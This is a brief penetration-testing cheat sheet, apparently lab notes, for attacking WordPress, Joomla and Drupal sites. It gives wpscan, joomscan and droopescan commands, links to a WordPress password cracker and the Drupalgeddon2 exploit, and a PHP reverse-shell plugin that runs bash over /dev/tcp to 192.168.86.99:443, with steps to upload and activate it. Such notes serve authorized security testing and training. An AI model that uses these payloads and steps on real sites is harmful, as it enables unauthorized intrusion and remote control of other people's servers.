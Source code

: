 # # 1 Wordpress

---

## wpscan

```
  wpscan --url http://sandbox.local  --enumerate ap,at,cb,dbe -o sandbox.out
```

```
  ./wpscan –url http://IP/ –enumerate p
```

Sometimes it is convenient to use the aggressive mode of wpscan


## wordpress password cracker

https://github.com/MrSqar-Ye/wpCrack.git

## wordpress reverse shell admin panel

1. create php code

```
<?php

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>
```

1. zip the php
2. upload the zip as plugin
3. activate plugin

# 2 Joomla

---

ip/administrator/manifests/files/joomla.xml <- te da la version

## joomscan

```
joomscan -ec -u  http://curling.htb
```

# 3 DRUPAL

---

https://github.com/dreadlocked/Drupalgeddon2

```
droopescan scan drupal -u 10.10.10.102:80 
```
